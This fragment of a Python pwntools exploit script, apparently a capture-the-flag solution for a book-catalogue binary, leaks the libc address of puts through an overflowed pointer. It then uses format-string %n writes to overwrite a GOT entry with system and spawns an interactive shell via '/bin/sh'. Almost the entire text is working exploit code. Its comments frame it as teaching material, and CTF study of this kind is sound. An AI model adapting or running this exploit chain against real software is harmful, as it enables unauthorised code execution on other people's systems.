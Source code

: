 ```
deleteBook(8)
deleteBook(9)
deleteBook(10)
deleteBook(11)
deleteBook(12)
deleteBook(13)
deleteBook(14)


# This is the initial overflow of a pointer with the got address of `puts` to get the libc infoleak
addBookSpc(50, 5, "15935728"*1 + p64(0x602028) + "z"*8 + "%7$lx.")

# Display all of the books, to get the libc infoleak
target.sendline('3')

# Filter out the infoleak
print target.recvuntil('{')
print target.recvuntil('{')
print target.recvuntil('{')
print target.recvuntil('{')

print target.recvuntil("\"name\": \"")

leak = target.recvuntil("\"")
leak = leak.replace("\"", "")
print "leak is: " + str(leak)
leak = u64(leak + "\x00"*(8 - len(leak)))

# Subtract the offset to system from puts from the infoleak, to get the libc address of system
libcBase = leak - libc.symbols['puts']
system = libcBase + libc.symbols['system']

print "system address: " + hex(leak)

# do a bit of binary math to get the
part0 = str(system & 0xffff)
part1 = str(((system & 0xffff0000) >> 16))
part2 = str(((system & 0xffff00000000) >> 32))

print "part 0: " + hex(int(part0))
print "part 1: " + hex(int(part1))
print "part 2: " + hex(int(part2))


# Add the three books to do the format string
# We need the 0x602028 address still to not cause a segfault when it prints
# the got address we are trying to overwrite is at 0x602018

addBookSpc("50", "5", p64(0x60201a) + p64(0x602028) + "z"*8 + "%" + part1 + "x%7$n")
addBookSpc("50", "5", p64(0x602018) + p64(0x602028) + "z"*8 + "%" + part0 + "x%7$n")
addBookSpc("50", "5", p64(0x60201c) + p64(0x602028) + "z"*8 + "%" + part2 + "x%7$n")

# Print the books to execute the format string write
target.sendline('3')

# Free the book with "/bin/sh" to pass a pointer to "/bin/sh" to system
target.sendline('2')
target.sendline('7')

# Drop to an interactive shell
target.interactive()
```
